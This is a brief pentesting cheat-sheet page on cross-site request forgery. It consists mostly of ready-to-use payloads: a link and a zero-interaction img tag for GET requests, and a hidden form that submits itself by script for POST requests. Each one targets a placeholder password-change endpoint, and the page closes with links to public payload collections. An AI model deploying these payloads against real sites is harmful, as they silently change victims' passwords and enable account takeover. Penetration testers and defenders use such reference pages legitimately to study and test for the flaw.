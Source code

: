 ```yaml
---
icon: globe-pointer
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: false
---
```


# Cross Site Request Forgery (CSRF)

## Payloads

### GET

```html
<!-- Requires user interaction -->
<a href="http://<target>/changepasswd.php?pass=pass">Click Me</a>

<!-- No user interaction required -->
<img src="http://<target>/changepasswd.php?pass=pass">
```

### POST

```html
<form id="form" action="http://<target>/changepasswd.php" method="POST">
 <input name="pass" type="hidden" value="pass" />
 <input type="submit" value="Submit" />
</form>

<!-- Auto submit -->
<script>
 document.getElementById("form").submit();
</script>
```

## References

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection)\
[https://book.hacktricks.xyz/pentesting-web/csrf-cross-site-request-forgery](https://book.hacktricks.xyz/pentesting-web/csrf-cross-site-request-forgery)

